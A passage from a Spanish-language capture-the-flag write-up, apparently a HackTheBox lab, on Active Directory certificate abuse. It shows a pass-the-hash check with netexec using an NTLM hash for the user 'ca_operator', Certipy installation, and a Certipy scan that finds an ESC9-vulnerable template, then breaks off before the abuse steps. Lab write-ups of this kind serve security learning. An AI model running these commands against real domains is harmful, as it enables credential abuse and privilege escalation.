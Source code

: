 Y por último comprobamos si es válido con `netexec smb`, ya que el usuario "ca_operator" no es miembro del grupo "Remote Management Users", por lo que no podemos acceder mediante `evil-winrm`:

```bash
netexec smb DC01 -u ca_operator -H b4b86f45c6018f1b664f70805f45d8f2
```

![image](../zimages/Pasted_image_20250323235036.png)

Una vez que tenemos todo esto claro, vamos a buscar "Templates Vulnerables" con Certipy, el cual instalamos con `pipx`:

https://github.com/ly4k/Certipy

```bash
cd certipy
pipx install .
```

Con el siguiente comando vuscamos por plantillas vulnerables:

```bash
certipy find -vulnerable -username ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -dc-ip 10.10.11.41 -stdout
```

Y encontramos una con la vulnerabilidad `ESC9`:

![image](../zimages/Pasted_image_20250323235824.png)

La cual podemos ver directamente en el repositorio de Certipy:

![image](../zimages/Pasted_image_20250324000200.png)

Si hacemos click ahí, vemos que nos dirige a un blog externo:

https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7

En el cual, si nos vamos al apartado "Examples", vemos como podemos abusar de esto:
